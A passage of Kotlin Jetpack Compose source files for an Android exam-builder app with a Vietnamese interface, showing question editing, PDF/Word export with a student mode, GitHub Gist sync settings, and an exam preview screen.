            item { ExamMetaEditor(viewModel) }
        }
        exam.blocks.forEach { block ->
            item(key = "hdr_${block.id}") {
                Text(
                    block.blockTitle,
                    style = MaterialTheme.typography.titleMedium,
                    modifier = Modifier.padding(top = 8.dp)
                )
            }
            items(block.questions, key = { it.id }) { q ->
                QuestionRow(
                    question = q,
                    onOpen = { onOpen(q) },
                    onEdit = { onEdit(q) },
                    onDelete = { viewModel.removeQuestion(q.id) },
                    onMoveUp = { viewModel.moveQuestion(q.id, up = true) },
                    onMoveDown = { viewModel.moveQuestion(q.id, up = false) }
                )
            }
        }
        if (exam.blocks.isEmpty()) {
            item {
                Text(
                    "Chưa có câu hỏi nào. Bấm \"Thêm câu hỏi\" để bắt đầu.",
                    color = MaterialTheme.colorScheme.onSurfaceVariant
                )
            }
        }
    }
}

@Composable
private fun ExamMetaEditor(viewModel: ExamViewModel) {
    val exam = viewModel.exam
    Column(verticalArrangement = Arrangement.spacedBy(8.dp)) {
        OutlinedTextField(
            value = exam.title,
            onValueChange = { viewModel.updateMeta(title = it) },
            label = { Text("Tên đề thi") },
            singleLine = true,
            modifier = Modifier.fillMaxWidth()
        )
        Row(horizontalArrangement = Arrangement.spacedBy(8.dp)) {
            OutlinedTextField(
                value = exam.subject,
                onValueChange = { viewModel.updateMeta(subject = it) },
                label = { Text("Môn") },
                singleLine = true,
                modifier = Modifier.weight(1f)
            )
            OutlinedTextField(
                value = exam.durationMinutes?.toString() ?: "",
                onValueChange = { v -> viewModel.updateMeta(durationMinutes = v.filter { it.isDigit() }.toIntOrNull()) },
                label = { Text("Phút") },
                singleLine = true,
                keyboardOptions = KeyboardOptions(keyboardType = KeyboardType.Number),
                modifier = Modifier.width(96.dp)
            )
        }
        OutlinedTextField(
            value = exam.schoolHeader,
            onValueChange = { viewModel.updateMeta(schoolHeader = it) },
            label = { Text("Tiêu đề trường / sở (in ở đầu đề)") },
            singleLine = true,
            modifier = Modifier.fillMaxWidth()
        )
        Text(
            "${viewModel.questionCount()} câu hỏi",
            style = MaterialTheme.typography.labelMedium,
            modifier = Modifier.padding(top = 2.dp)
        )
    }
}

@Composable
private fun QuestionRow(
    question: Question,
    onOpen: () -> Unit,
    onEdit: () -> Unit,
    onDelete: () -> Unit,
    onMoveUp: () -> Unit,
    onMoveDown: () -> Unit,
) {
    Card(onClick = onOpen, colors = CardDefaults.cardColors()) {
        Column(Modifier.fillMaxWidth().padding(12.dp)) {
            Row(verticalAlignment = Alignment.CenterVertically, horizontalArrangement = Arrangement.spacedBy(4.dp)) {
                MathText(
                    question.content.ifBlank { "(Chưa có nội dung)" },
                    maxLines = 2,
                    fontWeight = FontWeight.Medium,
                    modifier = Modifier.weight(1f)
                )
                IconButton(onClick = onEdit) { Icon(Icons.Default.Edit, contentDescription = "Sửa câu hỏi") }
                IconButton(onClick = onDelete) { Icon(Icons.Default.Delete, contentDescription = "Xoá câu hỏi") }
            }
            Row(verticalAlignment = Alignment.CenterVertically, horizontalArrangement = Arrangement.spacedBy(6.dp)) {
                AssistChip(onClick = {}, label = { Text(question.difficultyLevel.label) })
                AssistChip(onClick = {}, label = { Text(question.questionType.vietnameseLabel()) })
                IconButton(onClick = onMoveUp) { Icon(Icons.Default.ArrowUpward, contentDescription = "Lên") }
                IconButton(onClick = onMoveDown) { Icon(Icons.Default.ArrowDownward, contentDescription = "Xuống") }
            }
        }
    }
}

@Composable
private fun QuestionDetailCard(question: Question, onEdit: () -> Unit) {
    Card(border = BorderStroke(1.dp, MaterialTheme.colorScheme.outlineVariant)) {
        Column(Modifier.padding(16.dp), verticalArrangement = Arrangement.spacedBy(8.dp)) {
            Row(verticalAlignment = Alignment.CenterVertically) {
                Text(
                    question.questionType.vietnameseLabel() + " · " + question.difficultyLevel.label,
                    style = MaterialTheme.typography.labelMedium,
                    color = MaterialTheme.colorScheme.onSurfaceVariant,
                    modifier = Modifier.weight(1f)
                )
                Button(onClick = onEdit) {
                    Icon(Icons.Default.Edit, contentDescription = null)
                    Text(" Sửa", modifier = Modifier.padding(start = 4.dp))
                }
            }
            MathText(question.content.ifBlank { "(Chưa có nội dung)" }, style = MaterialTheme.typography.bodyLarge)
            question.options.forEach { opt ->
                MathText(
                    "${opt.optionKey}. ${opt.optionText}" + if (opt.isCorrect) "  ✓" else "",
                    color = if (opt.isCorrect) MaterialTheme.colorScheme.primary else MaterialTheme.colorScheme.onSurface
                )
            }
            if (!question.correctAnswer.isNullOrBlank() && question.options.isEmpty()) {
                MathText("Đáp án: ${question.correctAnswer}", color = MaterialTheme.colorScheme.primary)
            }
            if (!question.explanation.isNullOrBlank()) {
                MathText(
                    "Lời giải: ${question.explanation}",
                    style = MaterialTheme.typography.bodyMedium,
                    color = MaterialTheme.colorScheme.onSurfaceVariant
                )
            }
        }
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/ui/screens/ExportScreen.kt

```kotlin
package com.exambuilder.android.ui.screens

import androidx.compose.foundation.layout.Arrangement
import androidx.compose.foundation.layout.Column
import androidx.compose.foundation.layout.Row
import androidx.compose.foundation.layout.fillMaxSize
import androidx.compose.foundation.layout.fillMaxWidth
import androidx.compose.foundation.layout.padding
import androidx.compose.foundation.rememberScrollState
import androidx.compose.foundation.verticalScroll
import androidx.compose.material.icons.Icons
import androidx.compose.material.icons.filled.Description
import androidx.compose.material.icons.filled.PictureAsPdf
import androidx.compose.material3.Button
import androidx.compose.material3.Card
import androidx.compose.material3.CircularProgressIndicator
import androidx.compose.material3.Icon
import androidx.compose.material3.MaterialTheme
import androidx.compose.material3.OutlinedButton
import androidx.compose.material3.Switch
import androidx.compose.material3.Text
import androidx.compose.runtime.Composable
import androidx.compose.runtime.getValue
import androidx.compose.runtime.mutableStateOf
import androidx.compose.runtime.remember
import androidx.compose.runtime.rememberCoroutineScope
import androidx.compose.runtime.saveable.rememberSaveable
import androidx.compose.runtime.setValue
import androidx.compose.ui.Alignment
import androidx.compose.ui.Modifier
import androidx.compose.ui.platform.LocalContext
import androidx.compose.ui.text.font.FontWeight
import androidx.compose.ui.unit.dp
import com.exambuilder.android.export.DOCX_MIME
import com.exambuilder.android.export.DocxExporter
import com.exambuilder.android.export.PDF_MIME
import com.exambuilder.android.export.PdfExporter
import com.exambuilder.android.export.shareExportedFile
import com.exambuilder.android.viewmodel.ExamViewModel
import com.exambuilder.android.model.templateLayout
import kotlinx.coroutines.Dispatchers
import kotlinx.coroutines.launch
import kotlinx.coroutines.withContext

/**
 * Export centre: renders the current exam to a print-ready A4 PDF
 * ([PdfExporter]) or a Word .docx ([DocxExporter]) and hands the result to
 * the system share sheet. A student-mode switch strips answers and solutions.
 */
@Composable
fun ExportScreen(viewModel: ExamViewModel) {
    val context = LocalContext.current
    val scope = rememberCoroutineScope()
    val exam = viewModel.exam
    val questionCount = viewModel.questionCount()

    var studentMode by rememberSaveable { mutableStateOf(false) }
    var busy by remember { mutableStateOf(false) }
    var status by remember { mutableStateOf<String?>(null) }

    fun export(pdf: Boolean) {
        if (busy) return
        busy = true
        status = null
        scope.launch {
            val outcome = runCatching {
                withContext(Dispatchers.IO) {
                    if (pdf) PdfExporter.export(context, exam, studentMode) to PDF_MIME
                    else DocxExporter.export(context, exam, studentMode) to DOCX_MIME
                }
            }
            busy = false
            outcome
                .onSuccess { (uri, mime) ->
                    status = "Đã tạo tệp. Chọn nơi lưu / chia sẻ."
                    shareExportedFile(context, uri, mime)
                }
                .onFailure { status = "Lỗi khi xuất: ${it.message ?: "không rõ"}" }
        }
    }

    Column(
        Modifier.fillMaxSize().verticalScroll(rememberScrollState()).padding(24.dp),
        verticalArrangement = Arrangement.spacedBy(16.dp),
        horizontalAlignment = Alignment.CenterHorizontally
    ) {
        Text("Xuất đề", style = MaterialTheme.typography.titleLarge)
        Text(
            "${exam.title.ifBlank { "Đề kiểm tra" }} — $questionCount câu",
            style = MaterialTheme.typography.bodyMedium,
            color = MaterialTheme.colorScheme.onSurfaceVariant
        )

        if (exam.templateBinding != null) {
            Text(
                if (exam.templateLayout() == null) "Cấu trúc câu khác snapshot template; Android xuất nội dung với bố cục cơ bản. Snapshot vẫn được giữ khi lưu/đồng bộ."
                else "Android áp dụng khổ giấy, lề, điểm và vùng trả lời từ template khi xuất; nền và bố cục nhiều cột chưa được áp dụng.",
                style = MaterialTheme.typography.bodySmall,
                color = MaterialTheme.colorScheme.onSurfaceVariant
            )
        }

        Card(Modifier.fillMaxWidth()) {
            Row(
                Modifier.fillMaxWidth().padding(16.dp),
                verticalAlignment = Alignment.CenterVertically,
                horizontalArrangement = Arrangement.SpaceBetween
            ) {
                Column(Modifier.weight(1f)) {
                    Text("Chế độ học sinh", fontWeight = FontWeight.Medium)
                    Text(
                        "Ẩn đáp án, lời giải và bảng đáp án.",
                        style = MaterialTheme.typography.bodySmall,
                        color = MaterialTheme.colorScheme.onSurfaceVariant
                    )
                }
                Switch(checked = studentMode, onCheckedChange = { studentMode = it })
            }
        }

        Button(
            onClick = { export(pdf = true) },
            enabled = questionCount > 0 && !busy,
            modifier = Modifier.fillMaxWidth()
        ) {
            Icon(Icons.Default.PictureAsPdf, contentDescription = null)
            Text("  Xuất PDF")
        }
        OutlinedButton(
            onClick = { export(pdf = false) },
            enabled = questionCount > 0 && !busy,
            modifier = Modifier.fillMaxWidth()
        ) {
            Icon(Icons.Default.Description, contentDescription = null)
            Text("  Xuất Word (.docx)")
        }

        if (busy) CircularProgressIndicator()
        status?.let { Text(it, style = MaterialTheme.typography.bodyMedium) }
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/ui/screens/LibraryScreen.kt

```kotlin
package com.exambuilder.android.ui.screens

import androidx.compose.foundation.layout.Arrangement
import androidx.compose.foundation.layout.Column
import androidx.compose.foundation.layout.PaddingValues
import androidx.compose.foundation.layout.Row
import androidx.compose.foundation.layout.fillMaxSize
import androidx.compose.foundation.layout.fillMaxWidth
import androidx.compose.foundation.layout.padding
import androidx.compose.foundation.layout.width
import androidx.compose.foundation.lazy.LazyColumn
import androidx.compose.foundation.lazy.items
import androidx.compose.material.icons.Icons
import androidx.compose.material.icons.filled.Delete
import androidx.compose.material3.AlertDialog
import androidx.compose.material3.Button
import androidx.compose.material3.Card
import androidx.compose.material3.HorizontalDivider
import androidx.compose.material3.Icon
import androidx.compose.material3.IconButton
import androidx.compose.material3.MaterialTheme
import androidx.compose.material3.OutlinedButton
import androidx.compose.material3.OutlinedTextField
import androidx.compose.material3.Text
import androidx.compose.material3.TextButton
import androidx.compose.runtime.Composable
import androidx.compose.runtime.collectAsState
import androidx.compose.runtime.getValue
import androidx.compose.runtime.mutableStateOf
import androidx.compose.runtime.remember
import androidx.compose.runtime.setValue
import androidx.compose.ui.Alignment
import androidx.compose.ui.Modifier
import androidx.compose.ui.text.font.FontWeight
import androidx.compose.ui.text.input.PasswordVisualTransformation
import androidx.compose.ui.unit.dp
import com.exambuilder.android.data.dto.SavedExamDto
import com.exambuilder.android.viewmodel.LibraryViewModel
import java.time.Instant
import java.time.ZoneId
import java.time.format.DateTimeFormatter

private val DATE_FMT: DateTimeFormatter =
    DateTimeFormatter.ofPattern("dd/MM/yyyy HH:mm").withZone(ZoneId.systemDefault())

private fun formatIso(iso: String?): String {
    if (iso.isNullOrBlank()) return "—"
    return runCatching { DATE_FMT.format(Instant.parse(iso)) }.getOrDefault(iso)
}

@Composable
private fun SyncStateRow(key: String, value: String, isSet: Boolean) {
    Row(
        Modifier.fillMaxWidth().padding(vertical = 2.dp),
        horizontalArrangement = Arrangement.spacedBy(8.dp)
    ) {
        Text(
            key,
            style = MaterialTheme.typography.bodySmall,
            color = MaterialTheme.colorScheme.onSurfaceVariant,
            modifier = Modifier.width(96.dp)
        )
        Text(
            value,
            style = MaterialTheme.typography.bodyMedium,
            fontWeight = FontWeight.SemiBold,
            color = if (isSet) MaterialTheme.colorScheme.primary else MaterialTheme.colorScheme.onSurfaceVariant
        )
    }
}

@Composable
fun LibraryScreen(
    libraryViewModel: LibraryViewModel,
    onOpenExam: (String) -> Unit,
    onExamDeleted: (String) -> Unit
) {
    val archive by libraryViewModel.archive.collectAsState()
    val settings by libraryViewModel.settings.collectAsState()
    val syncStatus by libraryViewModel.syncStatus.collectAsState()
    val syncing by libraryViewModel.syncing.collectAsState()

    // Token & Gist ID mac dinh "khoa" - chi hien nhan trang thai. Bam "Thay doi"
    // moi mo o nhap.
    var showTokenEditor by remember { mutableStateOf(false) }
    var showGistEditor by remember { mutableStateOf(false) }
    var tokenInput by remember { mutableStateOf("") }
    var gistInput by remember { mutableStateOf("") }

    var pendingDelete by remember { mutableStateOf<SavedExamDto?>(null) }

    LazyColumn(
        Modifier.fillMaxSize(),
        contentPadding = PaddingValues(16.dp),
        verticalArrangement = Arrangement.spacedBy(10.dp)
    ) {
        item {
            Text("Đề đã lưu", style = MaterialTheme.typography.titleLarge)
            Text(
                "Mọi đề bạn soạn đều được tự động lưu vào đây.",
                style = MaterialTheme.typography.bodySmall,
                color = MaterialTheme.colorScheme.onSurfaceVariant
            )
        }

        if (archive.isEmpty()) {
            item {
                Text(
                    "Chưa có đề nào. Sang tab \"Soạn đề\" để bắt đầu.",
                    color = MaterialTheme.colorScheme.onSurfaceVariant
                )
            }
        }

        items(archive, key = { it.examId }) { ex ->
            Card(Modifier.fillMaxWidth()) {
                Row(
                    Modifier.fillMaxWidth().padding(12.dp),
                    verticalAlignment = Alignment.CenterVertically,
                    horizontalArrangement = Arrangement.SpaceBetween
                ) {
                    Column(Modifier.weight(1f)) {
                        Text(ex.title.ifBlank { "Đề chưa đặt tên" }, fontWeight = FontWeight.Medium, maxLines = 2)
                        val sub = listOfNotNull(
                            ex.subject.ifBlank { null },
                            ex.durationMinutes?.let { "$it phút" },
                            "Sửa: ${formatIso(ex.updatedAt)}"
                        ).joinToString(" · ")
                        Text(sub, style = MaterialTheme.typography.bodySmall, color = MaterialTheme.colorScheme.onSurfaceVariant)
                    }
                    TextButton(onClick = { onOpenExam(ex.examId) }) { Text("Mở") }
                    IconButton(onClick = { pendingDelete = ex }) {
                        Icon(Icons.Default.Delete, contentDescription = "Xoá đề")
                    }
                }
            }
        }

        item { HorizontalDivider(Modifier.padding(vertical = 8.dp)) }

        item {
            Text("Đồng bộ (GitHub Gist)", style = MaterialTheme.typography.titleMedium)
            Text(
                "Dùng chung 1 Personal Access Token (quyền \"gist\") và 1 Gist ID cho mọi thiết bị.",
                style = MaterialTheme.typography.bodySmall,
                color = MaterialTheme.colorScheme.onSurfaceVariant
            )
        }

        item {
            SyncStateRow("Token GitHub", if (settings.hasToken) "✅ Đã lưu" else "⚠️ Chưa có", settings.hasToken)
            SyncStateRow(
                "Gist ID",
                if (settings.gistId.isNotBlank()) "✅ ${settings.gistId}" else "⚠️ Chưa có",
                settings.gistId.isNotBlank()
            )
        }

        item {
            Row(Modifier.fillMaxWidth(), horizontalArrangement = Arrangement.spacedBy(8.dp)) {
                Button(
                    onClick = { libraryViewModel.pull() },
                    enabled = !syncing,
                    modifier = Modifier.weight(1f)
                ) { Text("⬇️ Kéo về") }
                OutlinedButton(
                    onClick = { libraryViewModel.push() },
                    enabled = !syncing,
                    modifier = Modifier.weight(1f)
                ) { Text("⬆️ Đẩy lên") }
            }
        }

        item {
            Row(Modifier.fillMaxWidth(), horizontalArrangement = Arrangement.spacedBy(8.dp)) {
                OutlinedButton(
                    onClick = { showTokenEditor = !showTokenEditor; showGistEditor = false; tokenInput = "" },
                    modifier = Modifier.weight(1f)
                ) { Text("🔑 Thay đổi Token") }
                OutlinedButton(
                    onClick = { showGistEditor = !showGistEditor; showTokenEditor = false; gistInput = settings.gistId },
                    modifier = Modifier.weight(1f)
                ) { Text("🆔 Thay đổi Gist ID") }
            }
        }

        if (showTokenEditor) {
            item {
                Card(Modifier.fillMaxWidth()) {
                    Column(Modifier.padding(12.dp), verticalArrangement = Arrangement.spacedBy(8.dp)) {
                        OutlinedTextField(
                            value = tokenInput,
                            onValueChange = { tokenInput = it },
                            label = { Text("Dán Token GitHub mới (quyền \"gist\")") },
                            singleLine = true,
                            visualTransformation = PasswordVisualTransformation(),
                            modifier = Modifier.fillMaxWidth()
                        )
                        Row(horizontalArrangement = Arrangement.spacedBy(8.dp)) {
                            Button(
                                onClick = {
                                    if (tokenInput.isNotBlank()) {
                                        libraryViewModel.saveToken(tokenInput.trim())
                                        tokenInput = ""; showTokenEditor = false
                                    }
                                },
                                modifier = Modifier.weight(1f)
                            ) { Text("Lưu Token") }
                            OutlinedButton(
                                onClick = { showTokenEditor = false; tokenInput = "" },
                                modifier = Modifier.weight(1f)
                            ) { Text("Huỷ") }
                        }
                    }
                }
            }
        }

        if (showGistEditor) {
            item {
                Card(Modifier.fillMaxWidth()) {
                    Column(Modifier.padding(12.dp), verticalArrangement = Arrangement.spacedBy(8.dp)) {
                        Text(
                            "Cách 1 — Tạo Gist mới (thiết bị đầu tiên; cần đã lưu Token):",
                            style = MaterialTheme.typography.bodySmall
                        )
                        OutlinedButton(
                            onClick = { libraryViewModel.createNewGist(); showGistEditor = false },
                            enabled = settings.hasToken && !syncing,
                            modifier = Modifier.fillMaxWidth()
                        ) { Text("🆕 Tạo Gist ID mới") }

                        Text(
                            "Cách 2 — Dán Gist ID đã có (copy từ thiết bị khác):",
                            style = MaterialTheme.typography.bodySmall
                        )
                        OutlinedTextField(
                            value = gistInput,
                            onValueChange = { gistInput = it },
                            label = { Text("Gist ID") },
                            singleLine = true,
                            modifier = Modifier.fillMaxWidth()
                        )
                        Row(horizontalArrangement = Arrangement.spacedBy(8.dp)) {
                            Button(
                                onClick = {
                                    if (gistInput.isNotBlank()) {
                                        libraryViewModel.saveGistId(gistInput.trim())
                                        showGistEditor = false
                                    }
                                },
                                modifier = Modifier.weight(1f)
                            ) { Text("Lưu Gist ID") }
                            OutlinedButton(
                                onClick = { showGistEditor = false },
                                modifier = Modifier.weight(1f)
                            ) { Text("Huỷ") }
                        }
                    }
                }
            }
        }

        item {
            syncStatus?.let {
                Text(it, style = MaterialTheme.typography.bodyMedium)
            }
            Text(
                "Đồng bộ lần cuối: ${if (settings.lastSyncedAt.isBlank()) "chưa lần nào" else formatIso(settings.lastSyncedAt)}",
                style = MaterialTheme.typography.bodySmall,
                color = MaterialTheme.colorScheme.onSurfaceVariant
            )
        }

        item {
            Text(
                "⚠️ Gist ở dạng \"secret\" nhưng KHÔNG mã hóa: ai có link Gist đều đọc được toàn bộ đề " +
                    "kèm đáp án. Coi link Gist và token là thông tin nhạy cảm.",
                style = MaterialTheme.typography.bodySmall,
                color = MaterialTheme.colorScheme.error
            )
        }
    }

    pendingDelete?.let { ex ->
        AlertDialog(
            onDismissRequest = { pendingDelete = null },
            title = { Text("Xóa đề?") },
            text = {
                Text(
                    "\"${ex.title.ifBlank { "Đề chưa đặt tên" }}\" chỉ bị xóa TRÊN MÁY NÀY.\n\n" +
                        "• Bấm \"⬆️ Đẩy lên\" sau đó để xóa vĩnh viễn trên cloud.\n" +
                        "• Nếu xóa nhầm (và chưa Đẩy lên), bấm \"⬇️ Kéo về\" để khôi phục."
                )
            },
            confirmButton = {
                TextButton(onClick = {
                    libraryViewModel.delete(ex.examId) { onExamDeleted(ex.examId) }
                    pendingDelete = null
                }) { Text("Xóa") }
            },
            dismissButton = {
                TextButton(onClick = { pendingDelete = null }) { Text("Huỷ") }
            }
        )
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/ui/screens/PreviewScreen.kt

```kotlin
package com.exambuilder.android.ui.screens

import androidx.compose.animation.animateContentSize
import androidx.compose.foundation.BorderStroke
import androidx.compose.foundation.background
import androidx.compose.foundation.border
import androidx.compose.foundation.layout.Arrangement
import androidx.compose.foundation.layout.Box
import androidx.compose.foundation.layout.Column
import androidx.compose.foundation.layout.PaddingValues
import androidx.compose.foundation.layout.Row
import androidx.compose.foundation.layout.Spacer
import androidx.compose.foundation.layout.WindowInsets
import androidx.compose.foundation.layout.fillMaxSize
import androidx.compose.foundation.layout.fillMaxWidth
import androidx.compose.foundation.layout.padding
import androidx.compose.foundation.layout.size
import androidx.compose.foundation.lazy.LazyColumn
import androidx.compose.foundation.lazy.items
import androidx.compose.foundation.shape.RoundedCornerShape
import androidx.compose.material.icons.Icons
import androidx.compose.material.icons.filled.CheckCircle
import androidx.compose.material.icons.filled.Description
import androidx.compose.material.icons.filled.IosShare
import androidx.compose.material.icons.filled.PictureAsPdf
import androidx.compose.material.icons.filled.Visibility
import androidx.compose.material.icons.filled.VisibilityOff
import androidx.compose.material3.AssistChip
import androidx.compose.material3.Card
import androidx.compose.material3.CardDefaults
import androidx.compose.material3.DropdownMenu
import androidx.compose.material3.DropdownMenuItem
import androidx.compose.material3.ExperimentalMaterial3Api
import androidx.compose.material3.Icon
import androidx.compose.material3.IconButton
import androidx.compose.material3.MaterialTheme
import androidx.compose.material3.Scaffold
import androidx.compose.material3.SnackbarHost
import androidx.compose.material3.SnackbarHostState
import androidx.compose.material3.Text
import androidx.compose.material3.TopAppBar
import androidx.compose.runtime.Composable
import androidx.compose.runtime.getValue
import androidx.compose.runtime.mutableStateOf
import androidx.compose.runtime.remember
import androidx.compose.runtime.rememberCoroutineScope
import androidx.compose.runtime.saveable.rememberSaveable
import androidx.compose.runtime.setValue
import androidx.compose.ui.Alignment
import androidx.compose.ui.Modifier
import androidx.compose.ui.graphics.Color
import androidx.compose.ui.platform.LocalContext
import androidx.compose.ui.text.font.FontWeight
import androidx.compose.ui.text.style.TextOverflow
import androidx.compose.ui.unit.dp
import com.exambuilder.android.export.DOCX_MIME
import com.exambuilder.android.export.DocxExporter
import com.exambuilder.android.export.PDF_MIME
import com.exambuilder.android.export.PdfExporter
import com.exambuilder.android.export.shareExportedFile
import com.exambuilder.android.export.trueFalseLabel
import com.exambuilder.android.math.MathText
import com.exambuilder.android.model.Question
import com.exambuilder.android.model.QuestionType
import com.exambuilder.android.model.TemplateSlot
import com.exambuilder.android.model.templateLayout
import com.exambuilder.android.viewmodel.ExamViewModel
import kotlinx.coroutines.Dispatchers
import kotlinx.coroutines.launch
import kotlinx.coroutines.withContext
import kotlinx.serialization.json.JsonArray

/**
 * Read-only render of the exam. Questions are numbered continuously 1..N
 * across the whole paper (matches the web). Tap a card to reveal answers and
 * the worked solution. The app-bar toggles a student view and exports the
 * paper to PDF or Word.
 */
@OptIn(ExperimentalMaterial3Api::class)
@Composable
fun PreviewScreen(viewModel: ExamViewModel) {
    val context = LocalContext.current
    val scope = rememberCoroutineScope()
    val exam = viewModel.exam

    var studentMode by rememberSaveable { mutableStateOf(false) }
    var expanded by remember { mutableStateOf(setOf<String>()) }
    var exportMenuOpen by remember { mutableStateOf(false) }
    var busy by remember { mutableStateOf(false) }
    val snackbar = remember { SnackbarHostState() }

    // Number once (not inside the item lambda - that re-runs on every recompose).
    val numbered = remember(exam) {
        var n = 0
        exam.blocks.map { block -> block to block.questions.map { q -> ++n to q } }
    }
    val total = remember(exam) { exam.blocks.sumOf { it.questions.size } }
    val layout = remember(exam) { exam.templateLayout() }

    fun runExport(kind: ExportKind) {
        if (busy) return
        busy = true
        exportMenuOpen = false
        scope.launch {
            val result = runCatching {
                withContext(Dispatchers.IO) {
                    when (kind) {
                        ExportKind.PDF -> PdfExporter.export(context, exam, studentMode) to PDF_MIME
                        ExportKind.DOCX -> DocxExporter.export(context, exam, studentMode) to DOCX_MIME
                    }
                }
            }
            busy = false
            val out = result.getOrNull()
            if (out != null) {
                shareExportedFile(context, out.first, out.second)
            } else {
                snackbar.showSnackbar("Lỗi khi xuất tệp: ${result.exceptionOrNull()?.message ?: "không rõ"}")
            }
        }
    }

    Scaffold(
        contentWindowInsets = WindowInsets(0, 0, 0, 0),
        snackbarHost = { SnackbarHost(snackbar) },
        topBar = {
            TopAppBar(
                title = { Text("Xem trước đề") },
                actions = {
                    IconButton(onClick = { studentMode = !studentMode }) {
                        Icon(
                            if (studentMode) Icons.Default.VisibilityOff else Icons.Default.Visibility,
                            contentDescription = if (studentMode) "Đang ẩn đáp án" else "Đang hiện đáp án"
                        )
                    }
                    Box {
                        IconButton(onClick = { exportMenuOpen = true }, enabled = total > 0 && !busy) {
                            Icon(Icons.Default.IosShare, contentDescription = "Xuất đề")
                        }
                        DropdownMenu(expanded = exportMenuOpen, onDismissRequest = { exportMenuOpen = false }) {
                            DropdownMenuItem(
                                text = { Text("Xuất PDF") },
                                leadingIcon = { Icon(Icons.Default.PictureAsPdf, contentDescription = null) },
                                onClick = { runExport(ExportKind.PDF) }
                            )
                            DropdownMenuItem(
                                text = { Text("Xuất Word (.docx)") },
                                leadingIcon = { Icon(Icons.Default.Description, contentDescription = null) },
                                onClick = { runExport(ExportKind.DOCX) }
                            )
                        }
                    }
                }
            )
        }
    ) { padding ->
        if (total == 0) {
            Box(Modifier.fillMaxSize().padding(padding).padding(32.dp), contentAlignment = Alignment.Center) {
                Text(
                    "Chưa có câu hỏi nào. Sang tab \"Soạn đề\" để thêm.",
                    color = MaterialTheme.colorScheme.onSurfaceVariant
                )
            }
            return@Scaffold
        }

        LazyColumn(
            modifier = Modifier.fillMaxSize().padding(padding),
            contentPadding = PaddingValues(start = 16.dp, end = 16.dp, top = 12.dp, bottom = 40.dp),
            verticalArrangement = Arrangement.spacedBy(12.dp)
        ) {
            if (exam.templateBinding != null) {
                item(key = "template_fallback") {
                    val assetCount = (exam.templateBinding["asset_manifest"] as? JsonArray)?.size ?: 0
                    Column {
                        Text(
                            if (layout == null) "Template được giữ khi lưu/đồng bộ. Cấu trúc câu hiện khác snapshot nên Android dùng bố cục cơ bản."
                            else "Android dùng điểm, vùng trả lời và khổ giấy từ template khi có thể; nền và bố cục nhiều cột chưa được áp dụng.",
                            style = MaterialTheme.typography.bodySmall,
                            color = MaterialTheme.colorScheme.onSurfaceVariant
                        )
                        if (assetCount > 0) Text(
                            "$assetCount tài nguyên nền/hình minh họa chỉ có tham chiếu, chưa tải cùng Gist. Nội dung đề được giữ nguyên; dùng bố cục cơ bản trên thiết bị này.",
                            style = MaterialTheme.typography.bodySmall,
                            color = MaterialTheme.colorScheme.onSurfaceVariant
                        )
                    }
                }
            }
            item(key = "exam_header") { ExamHeaderCard(exam.title, exam.subject, exam.durationMinutes, exam.schoolHeader, total, studentMode) }

            numbered.forEachIndexed { blockIndex, (block, questions) ->
                item(key = "hdr_${block.id}") {
                    Column {
                        Text(
                            "${block.blockTitle}  ·  ${questions.size} câu",
                            style = MaterialTheme.typography.titleMedium,
                            color = MaterialTheme.colorScheme.primary,
                            modifier = Modifier.padding(top = 8.dp, bottom = 2.dp)
                        )
                        if (layout?.sections?.size == exam.blocks.size) {
                            layout.sections[blockIndex].stimulus?.let { passage -> MathText(passage) }
                        }
                    }
                }
                items(questions, key = { it.second.id }) { (number, question) ->
                    QuestionCard(
                        number = number,
                        question = question,
                        slot = layout?.slotFor(question, number - 1),
                        studentMode = studentMode,
                        expanded = question.id in expanded,
                        onToggle = {
                            expanded = if (question.id in expanded) expanded - question.id else expanded + question.id
                        }
                    )
                }
            }
        }
    }
}

private enum class ExportKind { PDF, DOCX }

@Composable
private fun ExamHeaderCard(
    title: String,
    subject: String,
    durationMinutes: Int?,
    schoolHeader: String,
    total: Int,
    studentMode: Boolean,
) {
    Card(
        Modifier.fillMaxWidth(),
        colors = CardDefaults.cardColors(containerColor = MaterialTheme.colorScheme.surfaceVariant)
    ) {
        Column(Modifier.padding(18.dp), verticalArrangement = Arrangement.spacedBy(4.dp)) {
            if (schoolHeader.isNotBlank()) {
                Text(
                    schoolHeader,
                    style = MaterialTheme.typography.labelMedium,
                    color = MaterialTheme.colorScheme.onSurfaceVariant
                )
            }
            Text(
                title.ifBlank { "Đề kiểm tra" },
                style = MaterialTheme.typography.titleLarge,
                fontWeight = FontWeight.Bold
            )
            val meta = buildList {
                if (subject.isNotBlank()) add("Môn: $subject")
                durationMinutes?.let { add("Thời gian: $it phút") }
                add("$total câu")
                add(if (studentMode) "Bản học sinh" else "Bản giáo viên")
            }
            Text(
                meta.joinToString("   ·   "),
                style = MaterialTheme.typography.bodySmall,
                color = MaterialTheme.colorScheme.onSurfaceVariant
            )
        }
    }
}

@Composable
private fun QuestionCard(
    number: Int,
    question: Question,
    slot: TemplateSlot?,
    studentMode: Boolean,
    expanded: Boolean,
    onToggle: () -> Unit,
) {
    val hasSecrets = !studentMode &&
        (!question.explanation.isNullOrBlank() || answerLine(question) != null || question.questionType == QuestionType.MCQ)

    Card(
        onClick = onToggle,
        modifier = Modifier.fillMaxWidth().animateContentSize(),
        colors = CardDefaults.cardColors(),
        border = if (expanded) BorderStroke(1.dp, MaterialTheme.colorScheme.primary) else null
    ) {
        Column(Modifier.padding(16.dp), verticalArrangement = Arrangement.spacedBy(10.dp)) {
            Row(verticalAlignment = Alignment.CenterVertically, horizontalArrangement = Arrangement.spacedBy(10.dp)) {
                NumberBadge(number)
                Spacer(Modifier.weight(1f))
                AssistChip(onClick = {}, label = { Text(question.difficultyLevel.label) })
                slot?.points?.takeIf { it.isNotBlank() }?.let { Text("$it điểm", style = MaterialTheme.typography.labelSmall) }
            }

            MathText(
                text = question.content.ifBlank { "(Chưa có nội dung)" },
                style = MaterialTheme.typography.bodyLarge,
                fontWeight = FontWeight.Medium,
                maxLines = if (expanded) Int.MAX_VALUE else 6,
                overflow = TextOverflow.Ellipsis
            )

            when (question.questionType) {
                QuestionType.MCQ -> Column(verticalArrangement = Arrangement.spacedBy(6.dp)) {
                    question.options.forEach { opt ->
                        OptionRow(
                            key = opt.optionKey,
                            text = opt.optionText,
                            highlight = !studentMode && opt.isCorrect
                        )
                    }
                }
                QuestionType.ESSAY -> if ((slot?.answerLines ?: question.draftLinesCount) > 0) {
                    Text(
